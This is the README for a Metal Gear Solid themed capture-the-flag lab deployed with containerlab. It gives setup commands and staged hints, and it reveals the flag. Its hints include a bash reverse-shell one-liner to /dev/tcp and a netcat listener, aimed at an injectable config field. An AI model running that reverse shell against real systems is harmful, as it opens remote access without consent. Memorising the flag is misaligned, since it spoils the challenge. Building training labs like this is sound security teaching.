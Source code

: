 # Metal Gear Solid CTF Challenge

## Difficulty rating 
![stars](https://starrating-beta.vercel.app/3/) *100 points*
\
Requires solid HTTP fundamentals, bash/netcat familiarity, header manipulation, log parsing, and basic reverse shell crafting. Also, the hints are quite vague

### **Description**
An infiltration-themed web and network CTF challenge where participants navigate a network to uncover a patriots passkey. Exploit HTTP, the shell and misconfigured requests to retrieve hints and find the flag.
Requires understanding of HTTP headers, web requests, log analysis, base64 encoding, reverse shells, and  TCP networking + tools like curl, nmap, and netcat.
\
\
**Catagory:**
Web Exploitation / Network Services

### **How to run**

#### Requirements
- [docker](https://www.docker.com/)  > 28.1.1
- [containerlabs](https://containerlab.dev/) > 0.68.0

In the projects root directory, run:
```
sudo containerlab deploy --topo topology.yml
```
to destroy:
```
sudo containerlab destroy --topo topology.yml
```

<br>

> [!IMPORTANT]
> the loadbalancer is exposed on port 8080. Depending on if your running this inside a VM or wsl, you may have to use the ip of that followed by :8080

> [!NOTE]
> It may take a while to load and you may recieve 503 errors for the first 20 seconds depending on your internet and pc

### Hints
<details>
<summary>Hint 1: first curls</summary>
<br>
Curl each webserver individually. Correct the typo in S3cr3t/paslyword to secret/password. Find a way to show the response headers in curl when you curl with `Accept: application/secret`
</details>

<details>
<summary>Hint 2: after you've done the web3 challenge</summary>

Combine everything together, /top/secret/password?condition=trust with  `Accept: application/secret`. This is valid on any webserver
</details>

<details>
<summary>Hint 3: once ssh'd in</summary>
<br>
find / -name "*json" 2> /dev/null. The update property has echo in its string, suggesting its executing it. Use a reverse shell and net cat to establish connectiion
</details>

<details>
<summary>Hint 3: continued</summary>
<br>
bash -i >& /dev/tcp/web3/1337 0>&1 then after saving the file: nc -lvnp 1337 
</details>

<details>
<summary>Flag:</summary>
<br>
flag{PATRIOT_PASS} 
</details>

![image](https://github.com/user-attachments/assets/3d1260d3-cf7c-4ffc-a3d2-5f73fcc32ac4)
